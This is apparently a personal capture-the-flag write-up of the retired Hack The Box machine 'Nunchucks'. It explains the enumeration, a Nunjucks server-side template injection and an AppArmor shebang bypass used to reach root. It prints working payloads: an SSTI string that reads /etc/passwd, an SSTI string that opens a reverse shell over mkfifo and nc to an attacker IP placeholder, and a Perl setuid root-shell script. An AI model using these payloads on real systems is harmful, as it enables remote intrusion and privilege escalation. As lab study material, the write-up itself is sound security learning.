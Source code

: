 ```yaml
---
title: "Nunchucks HTB"
date: 2021-11-09T17:30:30
categories:
  - study
tags:
  - Linux
  - Web
  - NodeJS
  - SSTI
  - SUID
  - AppArmor
classes: wide
---
```


Nunchucks is a 7 day retired box, it is easy rated and it can be found [here.](https://app.hackthebox.com/machines/Nunchucks)

>*"Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary's AppArmor profile while executing scripts that include the shebang of the profiled application."*


<h2> Enumeration</h2>

**Nmap scan results:**

```
22/tcp  open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                            
80/tcp  open  http     syn-ack nginx 1.18.0 (Ubuntu)                                                                        
| http-methods:                                                                                                                                                  
|_  Supported Methods: GET HEAD POST OPTIONS                                 
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                      
|_http-title: Did not follow redirect to https://nunchucks.htb/                                                                                                  
443/tcp open  ssl/http syn-ack nginx 1.18.0 (Ubuntu)                                                                     
|_http-server-header: nginx/1.18.0 (Ubuntu)     
|_http-title: Nunchucks - Landing Page                                                                               
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK/localityName=Bournemouth
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
```

<h4>What is the scan telling us?</h4>

- Port 22 is open showing OpenSSH 8.2p1 on Ubuntu.
- Port 80 is open showing a nginx webserver.
- Port 443 shows ssl/http or https nginx webport.

We see the nunchucks.htb domain so we add it to our `/etc/hosts` file.

Navigating to the mainpage on port 443 and 80 we see: 

<img src="/assets/images/nunchucks/nunchuck0.PNG" alt="Different Vhost found.">

There is a registration and login page. However when we attempt to register or log in we get an error that logins and registrations are temporarily disabled.

**Gobuster:**
We use Gobuster's dir mode and find nothing of note, just things you can find navigating the site. 

However using vhost mode we find the following:

<img src="/assets/images/nunchucks/nunchuck1.PNG" alt="Different Vhost found.">

We add this to our `/etc/hosts` file and navigate to it.

<img src="/assets/images/nunchucks/nunchuck2.PNG" alt="https://store.nunchucks.htb">

From here we try to navigate through all the buttons and find that none of them link to any other page. However, inputting a test email shows that this site may be vulnerable to a Server-Side Template Injection (SSTI). 

<img src="/assets/images/nunchucks/nunchuck3.PNG" alt="Returns our email.">

<h4>What is an SSTI?</h4>

[Portswigger](https://portswigger.net/research/server-side-template-injection) explains SSTI as:

>*"Web applications frequently use template systems such as Twig and FreeMarker to embed dynamic content in web pages and emails. Template Injection occurs when user input is embedded in a template in an unsafe manner."*

We can test for an SSTI by submitting math to the server and seeing what is returned:

<img src="/assets/images/nunchucks/nunchuck4.PNG" alt="It's executing!">

The server has seen `7*7` and has returned 49 to us. It is executing what we give it, essentially an RCE.

<h2>Foothold</h2>

From here we have to understand what underlying template engine is running to see if there are any known vulns. We could test and devise our own manually but I'm not quiteeeeeee there yet.

Using Burpsuite to capture the email submission and seeing what the response is with repeater we see:

<img src="/assets/images/nunchucks/nunchuck5.PNG" alt="Powered by Express">

According to [wikipedia](https://en.wikipedia.org/wiki/Express.js), Express is:

>*"Express.js, or simply Express, is a back end web application framework for Node.js"* 

From here more googling leads us to a list of template engines usable by Express, including one named "Nunjucks".

We google for "Nunjucks SSTI" and find a nice [breakout guide](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine).

We see that we can use `{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}` to print `/etc/passwd`. Changing this to an email format and adding `\` between the double quotes to prevent errors:

<img src="/assets/images/nunchucks/nunchuck6.PNG" alt="Returns /etc/passwd">

Since we know this breakout works on this site we can now execute whatever we want! 

We startup our classic nc listener and find a reverse shell script to insert:

```
{
  "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOURIP YOURPORT >/tmp/f')\")()}}@mail.com"
}
```

We catch this shell, navigate to `/home/david` and see the `user.txt` right there:

<img src="/assets/images/nunchucks/nunchuck7.PNG" alt="User!">

<h2>Privilege Escalation</h2>

From here we notice that the box has a `SUID` tag on it, and use `getcap -r / 2>/dev/null` like so:

<img src="/assets/images/nunchucks/nunchuck8.PNG" alt="Good old setuid.">

We see `/usr/bin/perl = cap_setuid+ep` which we know from [Cap](https://moseskonsue.github.io/writeup/cap/) will allow us to escalate privileges. Checking [GTFObins](https://gtfobins.github.io/gtfobins/perl/) we see a one liner to give us root. 

However running it does... Nothing?

Being completely stuck I check out a great writeup from [0xdf](https://0xdf.gitlab.io/2021/11/02/htb-nunchucks.html). Who explains that the reason why nothing is happening is because of [AppArmor](https://en.wikipedia.org/wiki/AppArmor), from wikipedia:

>*"AppArmor ("Application Armor") is a Linux kernel security module that allows the system administrator to restrict programs' capabilities with per-program profiles"*

AppArmor would have revealed itself if I attempted to run the perl one liner in a script instead. Returning the following:

```bash
Can't open perl script "x": Permission denied
```

0xdf points out through their research they found that there is a [bug](https://bugs.launchpad.net/apparmor/+bug/1911431). This bug means that AppArmor will prevent execution when the binary is invoked via path, but if it's invoked by a SheBang(#) no such protection is offered.

This means we can create a script in `/tmp` with our one liner that looks like:

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"
```

Which results in:

<img src="/assets/images/nunchucks/nunchuck9.PNG" alt="whoami">

We find the root flag in the usual `/root/root.txt`.


<img src="/assets/images/nunchucks/nunchuck10.PNG" alt="Nice!">


<h4>For next time:</h4>

- The presence of one domain name suggests the possibility of others existing, use Gobuster vhost to discover others.
- Figure out a good workflow for testing sites for OWASP top 10 vulns. {{7/7}} etc. 



